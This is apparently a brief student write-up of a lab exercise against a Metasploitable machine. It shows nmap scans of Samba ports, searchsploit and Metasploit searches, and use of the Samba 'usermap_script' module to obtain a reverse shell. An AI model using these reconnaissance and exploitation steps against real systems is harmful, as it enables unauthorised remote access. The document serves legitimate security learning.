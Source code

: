 first of all i had 2 of them in samba
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)

so i did **nmap -sC 192.168.177.128 -p 139,445 **
Host script results:
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: metasploitable
|   NetBIOS computer name: 
|   Domain name: localdomain
|   FQDN: metasploitable.localdomain
|_  System time: 2024-12-24T01:10:47-05:00

so for that i searched in **searchsploit** and in metasploit
in searchsploit i got some and in metasploit 
**search Samba -v 3.0.20**
so i got only 1 and then setting the options in to it and then also assigned the parameters and then did **exploit**
then i got the reverse shell
exploit used: 
**exploit/multi/samba/usermap_script  2007-05-14 excellent  No Samba "username map script" Command Execution**

